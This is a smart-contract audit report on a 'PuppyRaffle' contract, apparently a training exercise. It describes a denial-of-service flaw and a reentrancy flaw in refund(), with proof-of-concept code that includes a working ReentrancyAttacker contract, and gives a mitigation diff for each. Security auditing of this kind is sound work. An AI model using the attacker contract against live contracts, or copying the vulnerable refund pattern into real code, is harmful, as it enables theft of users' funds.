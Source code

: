 ### [H-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle()` is a potential DoS attack, incrementing gas costs for future entrants

**Description:** The `PuppyRaffle::enterRaffle()` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more gas costs for future entrants. Every additional address in the `players` array is an additional check the loop have to make.
```javascript
 @>     for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact:** The gas costs for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users  from entering, and causing a rush at the start of a raffle to be one of the first to enter.

An attacker might make the `PuppyRaffle::players` array so big, that no one else enters, guarenteeing themselves the win.

**Proof of Concept:**

if we have 2 sets of 100 players enter, the gas costs will be as such: 
- 1st 100 players: ~6252037 gas
- 2nd 100 players: ~20376508 gas

<details> 
<summary>PoC</summary>
Place the folowing test into `PuppyRaffleTest.t.sol`

```javascript
 function test_denialOfService() public {
        vm.txGasPrice(1);
        address USER = makeAddr("user");
        vm.deal(USER, 1000000 ether);
        uint256 numPlayers = 200;
        address[] memory newPlayers = new address[](numPlayers);

        for (uint256 i = 0; i < numPlayers; i++) {
            newPlayers[i] = address(i);
        }

        uint256 gasStart = gasleft();

        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(newPlayers);

        uint256 gasEnd = gasleft();
        uint256 gasUsed = gasStart - gasEnd;
        console.log(gasUsed);

    }

```
</details>

**Likelihood:** High,

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a wallet has already entered.

```diff
+ uint256 public raffleID;
+ mapping (address => uint256) public usersToRaffleId;
.
.
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");

        for (uint256 i = 0; i < newPlayers.length; i++) {
+           // Check for duplicates
+           require(usersToRaffleId[newPlayers[i]] != raffleID, "PuppyRaffle: Already a participant");

            players.push(newPlayers[i]);
+           usersToRaffleId[newPlayers[i]] = raffleID;
        }

-       // Check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }

        emit RaffleEnter(newPlayers);
    }
.
.
.

function selectWinner() external {
        //Existing code
+    raffleID = raffleID + 1;        
    }

```


### [H-2] Reentrancy in `PuppyRaffle::refund()`. Attacker can drain all the funds from the contract. 


**Description:** The `PuppyRaffle::refund()` function doesn't follow CEI (Checks, Effects, Interactions) pattern. A malicious actor can exploit this by creating a contract with a fallback/receive function that calls `refund()` again when receiving ETH, allowing them to repeatedly withdraw funds before their player status is removed. This can continue until the contract's balance is drained.

```javascript

    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");

        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    
  @>    payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

**Impact:** An attacker can drain all ETH from the contract, stealing funds from other participants and making the raffle system inoperable.


**Proof of Concept:**

<details> 
<summary>PoC</summary>
Place the folowing test into `PuppyRaffleTest.t.sol`

```javascript

//SPDX-License-Identifier: MIT;

pragma solidity ^0.7.6;

import {PuppyRaffle} from "../../src/PuppyRaffle.sol";


contract ReentrancyAttacker {
    PuppyRaffle target;
    uint256 playerIndex;

    constructor(address _target) payable {
        target = PuppyRaffle(_target);
    }
    
    function attack() public {
        address[] memory players = new address[](1);
        players[0] = address(this);
        target.enterRaffle{value: target.entranceFee()}(players);
        playerIndex = target.getActivePlayerIndex(address(this));
        target.refund(playerIndex);
    }

    receive() external payable {
        if (address(target).balance >= 1 ether) {
            target.refund(playerIndex);
        }
    }
}

```
</details>


**Recommended Mitigation:** Update the `refund()` function to follow the CEI pattern by moving the state changes before the external call:

```diff

    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");

        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
    
        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

```

In that case we first remove the player from the `players` array, then we send the ETH to the player, it will protect the contract from reentrancy.